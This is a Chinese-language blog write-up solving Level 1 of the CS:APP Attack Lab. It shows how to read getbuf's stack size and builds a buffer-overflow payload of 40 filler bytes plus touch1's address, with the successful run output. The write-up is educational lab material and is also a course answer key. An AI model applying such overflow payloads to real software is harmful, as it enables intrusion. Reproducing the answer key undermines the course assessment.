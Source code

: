 ```yaml
---
title: CS:APP Lab 3 解题报告 - 64位
date: 2018-09-28 21:00:00
tags:
    - CSAPP
categories: CSAPP

---
```


CSAPP 的 Lab 3 在第三版之前都是所谓的 Buffer Lab，而 CSAPP 第三版的配套 Lab 3 则是 Attack Lab。因为我们学校新开的计算机系统基础课可能要以此为实验，故再来重新感受一番。该 Lab 的实验流程与 Buffer Lab 基本相同，我们直接开始。本次实验笔者使用的环境为 Ubuntu 18.04。



### Part I: Code Injection Attacks

按照惯例，我们先把 `ctarget` 的反汇编码保留一份。

```bash
objdump -d ctarget > ctarget.S
```

#### Level 1

这一阶段我们要做的就是调用 `touch1()` 函数，我们先找到该函数的地址，为 `00000000004017c0`，

再看一下 getbuf 的内容，上面赫然写着 ：

```
sub    $0x28,%rsp
```

显然我们只需要随便输入 `0x28` 个字节的内容然后输入 `touch1()` 的地址即可。因此构造答案：

```
66 66 66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66 66 66
c0 17 40 00 00 00 00 00
```

运行答案：

```bash
name1e5s@sumeru:~/csapp/attacklab-name1e5s/target1$ ./hex2raw < p1l1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 C0 17 40 00 00 00 00 00
```
